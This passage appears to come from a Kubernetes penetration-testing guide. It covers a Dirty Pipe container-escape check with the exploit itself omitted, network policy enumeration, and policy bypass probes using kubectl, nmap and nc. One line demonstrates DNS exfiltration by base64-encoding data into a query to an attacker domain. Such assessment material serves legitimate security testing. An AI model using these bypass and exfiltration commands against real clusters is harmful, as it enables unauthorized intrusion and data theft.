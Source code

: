 **2. Dirty Pipe Container Escape (CVE-2022-0847)**

Exploit the Dirty Pipe vulnerability for container breakout:

```bash
# Check kernel version (vulnerable: 5.8 to 5.16.11)
uname -r

# Look for writable files in /proc/self/exe
ls -la /proc/self/exe

# Use existing Dirty Pipe exploit tools
# (Implementation details omitted for brevity)
```

---

## Network Security Testing

### Network Policy Assessment

**1. Default Network Behavior**

Kubernetes networking is "flat" by default - all pods can communicate:

```bash
# Test pod-to-pod connectivity
kubectl run test-pod --image=busybox --rm -it --restart=Never -- wget -qO- http://target-service:port

# Check for network policies
kubectl get networkpolicies --all-namespaces

# Analyze network policy rules
kubectl get networkpolicy policy-name -o yaml
```

**2. Network Policy Bypass Techniques**

```bash
# Test different protocols
kubectl run test-pod --image=nicolaka/netshoot --rm -it --restart=Never

# From within the test pod:
# Test ICMP (often not blocked)
ping target-ip

# Test different ports
nmap -p 1-65535 target-ip

# Test UDP protocols
nc -u target-ip target-port

# DNS exfiltration (if DNS is allowed)
dig $(echo "data" | base64).attacker-domain.com
```
